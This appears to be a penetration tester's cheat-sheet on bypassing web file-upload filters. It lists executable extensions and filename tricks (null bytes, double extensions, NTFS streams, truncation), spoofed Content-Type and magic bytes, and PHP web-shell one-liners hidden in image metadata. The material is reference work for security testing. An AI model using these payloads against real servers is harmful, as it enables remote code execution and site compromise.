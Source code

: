 ```yaml
---
tags:
  - Enumeration
  - TCP
  - HTTP
  - Concepts
  - Vulnerabilities
  - HyperTextTransferProtocol
---
```

Ways to bypass file type upload filtering


# Guides

1. [File Upload | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology)
2. [File upload bypass | Hacker's Grimoire](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)

## File Upload General Methodology

Other useful extensions:

- **PHP**: _.php_, _.php2_, _.php3_, ._php4_, ._php5_, ._php6_, ._php7_, .phps, ._phps_, ._pht_, ._phtm, .phtml_, ._pgif_, _.shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module_
- **Working in PHPv8**: _.php_, _.php4_, _.php5_, _.phtml_, _.module_, _.inc_, _.hphp_, _.ctp_
- **ASP**: _.asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml_
- **Jsp:** _.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action_
- **Coldfusion:** _.cfm, .cfml, .cfc, .dbm_
- **Flash**: _.swf_
- **Perl**: _.pl, .cgi_
- **Erlang Yaws Web Server**: _.yaws_

### Bypass file extensions checks

1. If they apply, the **check** the **previous extensions.** Also test them using some **uppercase letters**: _pHp, .pHP5, .PhAr ..._
    
2. _Check_ _**adding a valid extension before**_ _the execution extension (use previous extensions also):_

	- _file.png.php_
	- _file.png.Php5_
        
    
3. Try adding **special characters at the end.** You could use Burp to **bruteforce** all the **ascii** and **Unicode** characters. (_Note that you can also try to use the_ _**previously**_ _motioned_ _**extensions**_)
    
    - _file.php%20_
        
    - _file.php%0a_
        
    - _file.php%00_
        
    - _file.php%0d%0a_
        
    - _file.php/_
        
    - _file.php.\_
        
    - _file._
        
    - _file.php...._
        
    - _file.pHp5...._
        
    
4. Try to bypass the protections **tricking the extension parser** of the server-side with techniques like **doubling** the **extension** or **adding junk** data (**null** bytes) between extensions. _You can also use the_ _**previous extensions**_ _to prepare a better payload._
    
    - _file.png.php_
        
    - _file.png.pHp5_
        
    - _file.php#.png_
        
    - _file.php%00.png_
        
    - _file.php\x00.png_
        
    - _file.php%0a.png_
        
    - _file.php%0d%0a.png_
        
    - _file.phpJunk123png_
        
    
5. Add **another layer of extensions** to the previous check:
    
    - _file.png.jpg.php_
        
    - _file.php%00.png%00.jpg_
        
    
6. Try to put the **exec extension before the valid extension** and pray so the server is misconfigured. (useful to exploit Apache misconfigurations where anything with extension** _**.php**_**, but** not necessarily ending in .php** will execute code):
    
    - _ex: file.php.png_
        
    
7. Using **NTFS alternate data stream (ADS)** in **Windows**. In this case, a colon character “:” will be inserted after a forbidden extension and before a permitted one. As a result, an **empty file with the forbidden extension** will be created on the server (e.g. “file.asax:.jpg”). This file might be edited later using other techniques such as using its short filename. The “**::$data**” pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions (.e.g. “file.asp::$data.”)
    
8. Try to break the filename limits. The valid extension gets cut off. And the malicious PHP gets left. AAA<--SNIP-->AAA.php, see [HTB: Falafel | 0xdf hacks stuff](https://0xdf.gitlab.io/2018/06/23/htb-falafel.html#code-execution---webshell)
    
    Copy
    
    ```
    # Linux maximum 255 bytes
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4 # minus 4 here and adding .png
    # Upload the file and check response how many characters it alllows. Let's say 236
    python -c 'print "A" * 232'
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    # Make the payload
    AAA<--SNIP 232 A-->AAA.php.png
    ```
    

### Bypass Content-Type, Magic Number, Compression & Resizing

- Bypass **Content-Type** checks by setting the **value** of the **Content-Type** **header** to: _image/png_ , _text/plain , application/octet-stream_
    
    1. Content-Type **wordlist**: [https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)
    
- Bypass **magic number** check by adding at the beginning of the file the **bytes of a real image** (confuse the _file_ command). Or introduce the shell inside the **metadata**: `exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg` `\` or you could also **introduce the payload directly** in an image: `echo '<?php system($_REQUEST['cmd']); ?>' >> img.png`
    
- If **compressions is being added to your image**, for example using some standard PHP libraries like [PHP-GD](https://www.php.net/manual/fr/book.image.php), the previous techniques won't be useful it. However, you could use the **PLTE chunk** [**technique defined here**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) to insert some text that will **survive compression**.
    
    - [**Github with the code**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen_plte_png.php)
        
    
- The web page cold also be **resizing** the **image**, using for example the PHP-GD functions `imagecopyresized` or `imagecopyresampled`. However, you could use the **IDAT chunk** [**technique defined here**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) to insert some text that will **survive compression**.
    
    - [**Github with the code**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen_idat_png.php)
    
- Another technique to make a payload that **survives an image resizing**, using the PHP-GD function `thumbnailImage`. However, you could use the **tEXt chunk** [**technique defined here**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) to insert some text that will **survive compression**.
    
    - [**Github with the code**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen_tEXt_png.php)
    

### Other Tricks to check

- Find a vulnerability to **rename** the file already uploaded (to change the extension), see [File upload bypass | Hacker's Grimoire](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass#php-getimagesize)
    
- Find a **Local File Inclusion** vulnerability to execute the backdoor.
    
- **Possible Information disclosure**:
    
    1. Upload **several times** (and at the **same time**) the **same file** with the **same name**
        
    2. Upload a file with the **name** of a **file** or **folder** that **already exists**
        
    3. Uploading a file with **“.”, “..”, or “…” as its name**. For instance, in Apache in **Windows**, if the application saves the uploaded files in “/www/uploads/” directory, the “.” filename will create a file called “uploads” in the “/www/” directory.
        
    4. Upload a file that may not be deleted easily such as **“…:.jpg”** in **NTFS**. (Windows)
        
    5. Upload a file in **Windows** with **invalid characters** such as `|<>*?”` in its name. (Windows)
        
    6. Upload a file in **Windows** using **reserved** (**forbidden**) **names** such as CON, PRN, AUX, NUL, COM1, COM2, COM3, COM4, COM5, COM6, COM7, COM8, COM9, LPT1, LPT2, LPT3, LPT4, LPT5, LPT6, LPT7, LPT8, and LPT9.
        
    
- Try also to **upload an executable** (.exe) or an **.html** (less suspicious) that **will execute code** when accidentally opened by victim.
    

### Special extension tricks

If you are trying to upload files to a **PHP server**, [take a look at the **.htaccess** trick to execute code](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp#code-execution-via-httaccess). If you are trying to upload files to an **ASP server**, [take a look at the **.config** trick to execute code](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services#execute-config-files).

The `.phar` files are like the `.jar` for java, but for php, and can be **used like a php file** (executing it with php, or including it inside a script...)

The `.inc` extension is sometimes used for php files that are only used to **import files**, so, at some point, someone could have allow **this extension to be executed**.